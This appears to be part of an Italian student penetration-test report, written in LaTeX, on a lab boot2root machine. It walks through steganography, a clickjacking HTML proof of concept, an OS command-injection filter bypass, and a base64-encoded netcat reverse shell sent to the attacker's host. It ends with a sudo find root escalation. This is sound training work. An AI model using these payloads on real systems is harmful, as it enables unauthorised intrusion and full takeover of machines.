			
\includegraphics[width=\linewidth]{assets/academy_photo/vulnerabilityAssessment/admin.png}
			\caption{La pagina \texttt{admin} e il form ispezionato.}
			\label{fig:admin_html}
		\end{minipage}\hfill % \hfill spinge le minipage ai due lati opposti
		% Seconda colonna (destra)
		\begin{minipage}{0.48\textwidth}
			\centering
			
\includegraphics[width=\linewidth]{assets/academy_photo/vulnerabilityAssessment/admin_code.png}
			\caption{Codice HTML con la passphrase in chiaro.}
			\label{fig:admin_code_html}
		\end{minipage}
	\end{figure}
	
	Ipotizzando che tale chiave fosse associata ai file multimediali esposti nella medesima directory, si è proceduto al download delle immagini per un'analisi steganografica. L'utilizzo del tool \texttt{steghide} in combinazione con la passphrase recuperata ha permesso di estrarre con successo un file di testo nascosto all'interno dell'immagine \texttt{haclabs.jpeg}.
	
	Il file \texttt{imp.txt} conteneva la stringa \texttt{c3VwZXJhZG1pbi5waHA=}. Riconoscendo il padding tipico della codifica Base64, il payload è stato decodificato, rivelando il nome in chiaro dell'interfaccia di amministrazione avanzata.
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.7\textwidth]{assets/academy_photo/vulnerabilityAssessment/admin_steganography_cut.png}
		\caption{Fase di estrazione e decodifica steganografica del payload dalle immagini.}
		\label{fig:steganography_extract}
	\end{figure}
	
	Questo ritrovamento ha confermato l'esistenza e l'importanza critica della pagina \texttt{superadmin.php}, precedentemente individuata in via euristica tramite l'attività di \textit{directory brute-forcing} con Gobuster.
	
	\subsection{Web Security Misconfigurations (Scansione Automatizzata)}
	In ottemperanza alle \textit{best practices} di reportistica, si omette l'inserimento degli screenshot nativi dei tool di scansione, privilegiando una sintesi analitica dei risultati. Il web server è stato sottoposto ad analisi tramite \texttt{Tenable Nessus}, \texttt{Nikto} (8234 richieste elaborate in 348s).
	
	La scansione ha rivelato un totale di \textbf{13 evidenze} di misconfiguration, prevalentemente associate alla mancata implementazione di header di sicurezza.
	
	\begin{table}[H]
		\centering
		\renewcommand{\arraystretch}{1.3}
		\begin{tabular}{l c p{8cm}}
			\toprule
			\textbf{Vulnerabilità Rilevata} & \textbf{Severity} & \textbf{Impatto / Descrizione} \\
			\midrule
			\textbf{Missing Anti-Clickjacking} & \textcolor{Orange}{\textbf{Medium}} & Assenza di \texttt{X-Frame-Options} o direttive CSP \texttt{frame-ancestors}. Permette attacchi di UI Redressing. \\
			\textbf{CSP Header Not Set} & \textcolor{Orange}{\textbf{Medium}} & Mancata configurazione della Content Security Policy, esponendo il sistema a vettori XSS o iniezione dati. \\
			\textbf{Timestamp ICMP/TCP} & \textcolor{ForestGreen}{\textbf{Low}} & OpenVAS ha rilevato l'esposizione di Timestamp (CVE-1999-0524), agevolando il calcolo dell'uptime del target. \\
			\textbf{Server Version Leak} & \textcolor{ForestGreen}{\textbf{Low}} & Il banner HTTP espone la dicitura \texttt{Apache/2.4.29 (Ubuntu)}, facilitando il fingerprinting per l'attaccante. \\
			\bottomrule
		\end{tabular}
		\caption{Sintesi delle vulnerabilità architetturali estratte dai vulnerability scanner.}
		\label{tab:automated_scans}
	\end{table}
	
	\subsection{Analisi Servizio di Stampa (CUPS su porta 631)}
	L'indagine automatizzata ha inoltre valutato le implicazioni di sicurezza legate alla potenziale esposizione del demone \texttt{cups-browsed}. Il servizio di stampa Linux (CUPS) è noto per una recente e critica vulnerabilità associata alla registrazione remota non autenticata (CVE-2024-47176, Severity Medium/High CVSS 5.3). Sebbene teoricamente sfruttabile per l'esecuzione di codice remoto (RCE) combinando pacchetti e URL malevoli, il team ha valutato questo vettore come secondario, data l'elevata criticità e l'accesso diretto offerto dall'applicazione web.
	
	\subsection{Identificazione Vettore d'Attacco Principale (\texttt{/superadmin.php})}
	L'attenzione operativa si è infine concentrata sull'analisi logica delle interfacce applicative. La pagina principale del web server (\texttt{index.php}), ironicamente nominata \textit{Fake Admin Area}, espone un form che si limita a simulare l'esecuzione di una diagnostica di rete: qualsiasi input inserito restituisce una semplice stringa di testo predefinita (\textit{"Fake ping executed"}), senza alcuna reale interazione con il sistema sottostante.
	
	
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.8\textwidth]{assets/academy_photo/vulnerabilityAssessment/index_php_fake_ping.png}
	\end{figure}	
	
	Al contrario, l'interfaccia amministrativa nascosta \textbf{\texttt{superadmin.php}} invoca un'autentica esecuzione del comando di sistema \texttt{ping} verso l'indirizzo IP fornito dall'utente. I moduli web che processano input non sanitizzati per passarlo direttamente a funzioni di sistema operativo rappresentano vettori primari e critici per vulnerabilità di tipo \textbf{OS Command Injection}. 
	
	Durante i primi tentativi di test \textit{Black-Box} condotti su questa seconda interfaccia, volti a concatenare comandi di sistema (tramite operatori come \texttt{\&\&} e \texttt{;}), l'applicazione ha restituito esclusivamente pagine vuote, evidenziando l'intervento di un meccanismo di filtraggio lato server (presumibilmente una \textit{blacklist} di caratteri speciali).
	
	\begin{figure}[H]
		\centering
		\begin{minipage}{0.48\textwidth}
			\centering
			
\includegraphics[width=\linewidth]{assets/academy_photo/vulnerabilityAssessment/superadmin_first_try.png}
			\caption{Tentativo fallito di concatenazione con l'operatore AND logico (\texttt{\&\&}).}
			\label{fig:injection_fail_1}
		\end{minipage}\hfill
		\begin{minipage}{0.48\textwidth}
			\centering
			
\includegraphics[width=\linewidth]{assets/academy_photo/vulnerabilityAssessment/superadmin_second_try.png}
			\caption{Tentativo fallito di esecuzione sequenziale con terminatore (\texttt{;}).}
			\label{fig:injection_fail_2}
		\end{minipage}
	\end{figure}
	
	La validazione di questa vulnerabilità e il successivo \textit{bypass} dei filtri, che ha condotto alla compromissione iniziale del sistema, sono descritti nel capitolo relativo alla \textit{Target Exploitation}.
	
\section{Target Exploitation}
In questa sezione, il team si occuperà di eseguire attività di exploit sulla macchina target utilizzando le informazioni raccolte nelle fasi precedenti. L'obiettivo primario è valutare se le vulnerabilità descritte nella fase di \textit{Vulnerability Assessment} possano essere concretamente armate per prendere il controllo (parziale o totale) di \texttt{no\_name} o per estrarre dati sensibili.

In questa fase, la valutazione terrà conto non solo dell'esistenza della falla, ma della sua reale sfruttabilità nel contesto del laboratorio. Verranno pertanto scartati i vettori d'attacco che richiedono interazioni non simulabili, che violano le regole d'ingaggio (\textit{Rules of Engagement}) o che risultano logicamente inapplicabili in un approccio \textit{Black-Box}.

\subsection{Missing Anti-Clickjacking (UI Redressing PoC)}
La mancanza degli header \texttt{X-Frame-Options} o \texttt{Content-Security-Policy} sulla pagina \texttt{index.php} è stata validata attraverso la creazione di un \textit{Proof of Concept} (PoC) locale. 

Il team ha sviluppato una pagina HTML malevola per dimostrare come un attaccante possa effettuare un attacco di \textit{UI Redressing}. L'exploit carica l'interfaccia vulnerabile all'interno di un \texttt{iframe} reso quasi trasparente (\texttt{opacity: 0.4}) e lo sovrappone a un pulsante-esca (in questo caso, un finto reindirizzamento al portale \textit{Exploit-DB}). 

\begin{tcolorbox}[colback=white, colframe=headerblue, title=PoC HTML per l'attacco di Clickjacking, fonttitle=\bfseries]
	\begin{verbatim}
		<!DOCTYPE html>
		<html>
		<head>
		<title>Clickjacking PoC - Gruppo 11</title>
		<style>
		body { position: relative; text-align: center; margin-top: 50px; }
		.esca { 
			position: absolute; top: 120px; left: 45%; z-index: 1; 
			padding: 10px 20px; background-color: red; color: white;
		}
		.vulnerabile {
			position: absolute; top: 0; left: 0; width: 100%; height: 500px;
			z-index: 2; opacity: 0.4; border: none; /* Trasparente */
		}
		</style>
		</head>
		<body>
		<h2>Congratulazioni! Hai vinto un premio.</h2>
		<a href="https://www.exploit-db.com" class="esca">Clicca qui per ritirarlo!</a>
		
		<iframe src="http://192.168.238.7/index.php" class="vulnerabile"></iframe>
		</body>
		</html>
	\end{verbatim}
\end{tcolorbox}

	Se un utente vittima venisse indotto tramite Ingegneria Sociale a visitare questa pagina e cliccasse sul pulsante rosso per ritirare il premio (o visitare Exploit-DB), il suo click verrebbe in realtà intercettato dal pulsante "Submit" del form di \texttt{index.php} sovrastante. Nonostante il successo del PoC, trattandosi di un form finto senza impatti critici (\textit{Fake Admin Area}), l'exploit non garantisce alcun avanzamento verso l'acquisizione del bersaglio.

\subsection{CUPS Remote Registration (CVE-2024-47176)}
	L'enumerazione automatizzata ha rivelato la potenziale esposizione della macchina ad una vulnerabilità critica del demone \texttt{cups-browsed} sulla porta UDP 631. Il vettore teorico prevede l'utilizzo del framework \textit{Metasploit} (\texttt{exploit/linux/cups/cups\_ipp\_attributes}) per erigere un server IPP malevolo e forzare il target a registrare una stampante fittizia sotto il controllo dell'attaccante.
	
	Tuttavia, dopo un'attenta analisi della \textit{Kill-Chain} associata a questa specifica CVE, il team ha stabilito l'impossibilità di procedere con l'Exploitation attiva. Affinché il payload malevolo (il comando RCE) venga effettivamente innescato e garantisca una \textit{Reverse Shell}, è strettamente necessaria l'interazione di un utente locale valido che avvii un processo di stampa (\textit{print job}) verso la stampante compromessa.
	
	Operando in un ambiente di laboratorio isolato, privo di traffico generato da utenti simulati e attenendosi rigorosamente a un approccio \textit{Black-Box} (che vieta l'accesso prematuro al sistema tramite credenziali non ancora compromesse), la catena di esecuzione si interrompe prima del trigger finale. La vulnerabilità è pertanto confermata architetturalmente, ma classificata come \textbf{non sfruttabile} nel presente scenario operativo.
	
\subsection{Web Remote Code Execution (\texttt{/superadmin.php})}
A seguito dell'esito negativo dei precedenti tentativi di iniezione, è stata ipotizzata la presenza di un meccanismo di sanitizzazione dell'input basato su \textit{blacklist}. Per validare tale ipotesi e mappare i confini del filtro, il team ha condotto ulteriori test di \textit{fuzzing} manuale. 

L'utilizzo del metacarattere \textit{pipe} (\texttt{|}) tramite il payload \texttt{192.168.238.4 | cat superadmin.php} ha permesso di eludere le difese del modulo. L'applicazione ha elaborato inaspettatamente la richiesta, restituendo in chiaro il codice sorgente PHP della pagina. L'attività di \textit{Code Review} ha immediatamente evidenziato due criticità architetturali di livello severo:

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\textwidth]{assets/academy_photo/vulnerabilityAssessment/superadmin_php_inspection.png}
	\caption{Estrazione del codice sorgente PHP grazie all'elusione del filtro tramite l'operatore pipe.}
	\label{fig:superadmin_php_review}
\end{figure}

\begin{enumerate}[label=\textcolor{headerblue}{\textbf{\arabic*.}}, leftmargin=*]
	\item \textbf{Blacklist Inefficiente e Incompleta:} Il controllo dell'input è affidato alla funzione \texttt{str\_replace()}, che tenta di inibire i comandi vietando le occorrenze presenti nell'array \texttt{\$word}. Essendo un approccio limitato, omette metacaratteri fondamentali di concatenazione (come \texttt{|}). Inoltre, la censura di termini specifici come \texttt{bin} e \texttt{nc} impedisce la chiamata diretta ai binari di shell o agli strumenti di rete, ostacolando l'apertura immediata di una \textit{Reverse Shell}, ma non prevenendo l'esecuzione di comandi alternativi.
	\item \textbf{Insecure System Call (OS Command Injection):} Effettuata la blanda operazione di filtraggio, l'input utente viene concatenato alla variabile e passato senza alcuna sterilizzazione alla pericolosa funzione \texttt{shell\_exec("ping -c 3 \$pinged")}. Di conseguenza, qualsiasi blocco di istruzioni iniettato successivamente alla direttiva \texttt{ping} e accettato dal filtro, viene eseguito arbitrariamente dal sistema operativo.
\end{enumerate}

Appurata l'impossibilità di invocare direttamente \texttt{Netcat} a causa del filtro imposto sull'eseguibile (\texttt{nc}) e sugli spazi, il team ha ingegnerizzato un payload mirato per aggirare le restrizioni della \textit{blacklist}. La tecnica prescelta sfrutta la \textbf{Command Substitution} di Linux tramite l'uso dei \textit{backticks} (\texttt{`...`}) e l'impiego della codifica in \textbf{Base64}. 

Codificando preventivamente il comando malevolo, l'array di controllo del server non è in grado di riconoscere e bloccare le stringhe vietate. Una volta iniettato, il sistema decodificherà il blocco al volo e lo eseguirà prioritariamente. Si è proceduto quindi a generare il payload in Base64 sulla macchina attaccante:

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\textwidth]{assets/academy_photo/exploitation/netcat_base64.png}
	\caption{Codifica in Base64 del comando di Reverse Shell tramite Netcat.}
	\label{fig:netcat_base64}
\end{figure}

Parallelamente, è stato predisposto un \textit{listener} TCP sulla macchina attaccante (\texttt{Kali Linux}) in ascolto sulla porta 2222:

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\textwidth]{assets/academy_photo/exploitation/netcat_kali_before_conn.png}
	\caption{Configurazione del listener Netcat in attesa della connessione in ingresso.}
	\label{fig:netcat_kali}
\end{figure}

Preparato l'ambiente operativo, il payload finale di \textit{Remote Code Execution} iniettato all'interno del form web di \texttt{superadmin.php} è risultato essere il seguente:

\begin{tcolorbox}[colback=gray!10, colframe=black!70, title=Payload RCE con bypass in Base64]
	\texttt{192.168.238.4 | `echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnx8L2Jpbi9zaCAtaSAyPiYxfHxuYyAxOTIuMTY4LjIzOC40IDIyMjIgPi90bXAvZg==" | base64 -d`}
\end{tcolorbox}

\textbf{Esito dell'attacco:}
L'invio del modulo ha generato un'attesa prolungata della pagina web, sintomo di una chiamata di sistema bloccante. Istantaneamente, sul terminale dell'attaccante si è registrata la ricezione della connessione di ritorno (\textit{call-back}), confermando l'apertura di una \textbf{Reverse Shell} sul bersaglio e garantendo l'accesso interattivo all'infrastruttura.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\textwidth]{assets/academy_photo/exploitation/netcat_to_noname.png}
	\caption{Ricezione della Reverse Shell sul terminale dell'attaccante.}
	\label{fig:netcat_succeded}
\end{figure}

La shell iniziale, essendo un processo \textit{non-TTY} instabile e privo di autocompletamento, è stata immediatamente sottoposta a un'operazione di \textit{TTY Upgrading} avvalendosi dell'interprete \texttt{Python} integrato nel sistema ospite (\texttt{python -c 'import pty; pty.spawn("/bin/bash")'}). 

A seguire, l'enumerazione del contesto di sicurezza ha confermato che l'accesso iniziale (\textit{foothold}) è avvenuto con i privilegi limitati associati all'account di servizio \texttt{www-data}.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\textwidth]{assets/academy_photo/exploitation/exploit_part_one_spawn_shell.png}
	\caption{Upgrading della shell in TTY interattiva e verifica dell'identità utente (whoami).}
	\label{fig:reverse_shell}
\end{figure}

L'utente \texttt{www-data}, predefinito per il demone Apache, opera in un perimetro di restrizione senza diritti di amministrazione. Tuttavia, esplorando la directory di base degli utenti (\texttt{/home}), il team ha rilevato la presenza di due profili locali: \textbf{\texttt{yash}} e \textbf{\texttt{haclabs}}. All'interno della home directory di \texttt{yash}, è stato individuato e letto il file \texttt{flag1.txt}, il cui contenuto si è rivelato propedeutico e indispensabile per la successiva fase di espansione dei privilegi.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\textwidth]{assets/academy_photo/exploitation/exploit_part_one_flag1.png}
	\caption{Identificazione delle home utente e acquisizione del contenuto del file flag1.txt.}
	\label{fig:first_flag}
\end{figure}
\section{Privilege Escalation}
Ottenuto l'accesso iniziale al sistema tramite la \textit{Reverse Shell}, il contesto di esecuzione corrispondeva all'account \texttt{www-data}. Essendo quest'ultimo sprovvisto di privilegi amministrativi, l'attività di \textit{Privilege Escalation} è stata suddivisa in due fasi: uno spostamento orizzontale (User Pivoting) e un'escalation verticale definitiva (Rooting).

\subsection{User Pivoting (da www-data a haclabs)}
L'enumerazione locale partendo dalla directory \texttt{/home} ha permesso di rinvenire un primo file di testo (\texttt{flag1.txt}) contenente un indizio cruciale per il reperimento delle credenziali dell'utente \texttt{haclabs}. Seguendo le tracce lasciate nel sistema, è stato utilizzato il comando \texttt{find} per individuare tutti i file nascosti di proprietà dell'utente \texttt{yash}.

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{assets/academy_photo/exploitation/exploit_part_one_haclab_psw.png}
	\caption{Ricerca mirata dei file di configurazione appartenenti all'utente yash.}
	\label{fig:haclab_psw}
\end{figure}

L'ispezione del file nascosto \texttt{/usr/share/hidden/.passwd} ha rivelato una password archiviata in chiaro: \textbf{\texttt{haclab1234}}. Attraverso il comando \texttt{su}, il team ha effettuato il login interattivo come utente \texttt{haclabs} (\textit{Lateral Movement / User Pivoting}), estendendo i propri permessi sul sistema e recuperando la seconda flag situata nella sua directory home.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{assets/academy_photo/exploitation/exploit_part_two_tohaclabs.png}
	\caption{Spostamento laterale verso l'utente haclabs ed estrazione della seconda flag.}
	\label{fig:haclab_escalation}
\end{figure}

\subsection{Vertical Privilege Escalation (da haclabs a root)}
Con l'accesso all'account \texttt{haclabs}, la priorità è passata all'enumerazione dei vettori di Privilege Escalation locale. Una delle verifiche standard consiste nel controllare i permessi di esecuzione delegata (SUDO) assegnati all'utente corrente.

Eseguendo il comando \texttt{sudo -l}, è emersa una grave \textit{Security Misconfiguration}: l'utente \texttt{haclabs} è autorizzato ad eseguire il binario di sistema \texttt{/usr/bin/find} con i privilegi di \texttt{root}, senza la necessità di inserire alcuna password (\texttt{NOPASSWD}).

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{assets/academy_photo/privilegeEscalation/sudo_find.png}
	\caption{Enumerazione dei privilegi SUDO: il binario find risulta eseguibile come root senza vincoli di password.}
	\label{fig:sudo_l_find}
\end{figure}

Il binario \texttt{find}, se eseguito con privilegi elevati, rappresenta un vettore di attacco noto (documentato anche nel database \textit{GTFOBins}). Sfruttando il parametro \texttt{-exec}, originariamente progettato per eseguire comandi arbitrari sui file trovati, è possibile forzare il binario a generare una shell di sistema. 

Poiché \texttt{find} viene invocato con \texttt{sudo}, la shell generata erediterà contestualmente i massimi privilegi amministrativi. Il team ha pertanto iniettato il seguente payload:

\begin{tcolorbox}[colback=gray!10, colframe=black!70, title=Payload di Rooting (GTFOBins)]
	\texttt{sudo -u root find . -type f -exec "/bin/bash" \textbackslash;}
\end{tcolorbox}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{assets/academy_photo/privilegeEscalation/root_escalation.png}
	\caption{Sfruttamento del binario find per l'ottenimento di una shell interattiva bash con privilegi di root.}
	\label{fig:find_exec_root}
\end{figure}

L'attacco ha avuto pieno successo, mostrando a schermo una shell interattiva \texttt{root@haclabs}. Acquisito il controllo amministrativo totale della macchina \texttt{no\_name}, il team si è spostato nella directory \texttt{/root} per catturare l'ultima flag (\texttt{flag3.txt}), completando tutti gli obiettivi (\textit{Boot2Root}) dell'ingaggio offensivo.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{assets/academy_photo/privilegeEscalation/flag3.png}
